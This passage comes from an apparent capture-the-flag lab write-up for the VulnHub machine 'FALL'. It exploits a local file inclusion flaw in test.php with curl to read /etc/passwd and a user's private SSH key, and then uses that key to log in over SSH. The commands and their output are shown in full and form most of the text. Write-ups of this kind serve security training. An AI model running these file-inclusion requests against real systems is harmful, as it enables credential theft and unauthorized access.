 **Found GET parameter `file`!**

Based on the GET parameter name, **it should be including arbitrary files on the system?**

**Let's try to include the `/etc/passwd` file:** 
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/digitalworld.local:FALL)-[2023.08.17|14:17:19(HKT)]
└> curl http://10.69.96.73/test.php --get --data-urlencode "file=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
[...]
qiu:x:1000:1000:qiu:/home/qiu:/bin/bash
[...]
```

Nice! And we found a system user!

- Found system user: `qiu`

## Initial Foothold

After Local File Inclusion (LFI) vulnerability has been found, we can try to gain initial foothold by:

1. RCE via LFI log poisoning
2. Reading configuration files

**First, we can try to read CMS Made Simple configuration file:**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/digitalworld.local:FALL)-[2023.08.17|14:20:41(HKT)]
└> curl http://10.69.96.73/test.php --get --data-urlencode "file=config.php"
```

Empty?

Then, I tried to read Apache access log and other logs, but no dice.

**After poking around, we can actually include system user `qiu`'s private SSH key!**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/digitalworld.local:FALL)-[2023.08.17|14:32:49(HKT)]
└> curl http://10.69.96.73/test.php --get --data-urlencode "file=/home/qiu/.ssh/id_rsa"
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
[...]
```

**Let's download its SSH key and SSH into the machine via that key!**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/digitalworld.local:FALL)-[2023.08.17|14:33:58(HKT)]
└> curl http://10.69.96.73/test.php --get --data-urlencode "file=/home/qiu/.ssh/id_rsa" > qiu_id_rsa
[...]
┌[siunam♥Mercury]-(~/ctf/VulnHub/digitalworld.local:FALL)-[2023.08.17|14:34:27(HKT)]
└> chmod 600 qiu_id_rsa
```

```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/digitalworld.local:FALL)-[2023.08.17|14:34:33(HKT)]
└> ssh -i qiu_id_rsa qiu@$RHOSTS
[...]
[qiu@FALL ~]$ whoami; hostname; id; ip a
qiu
FALL
uid=1000(qiu) gid=1000(qiu) groups=1000(qiu),10(wheel)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
```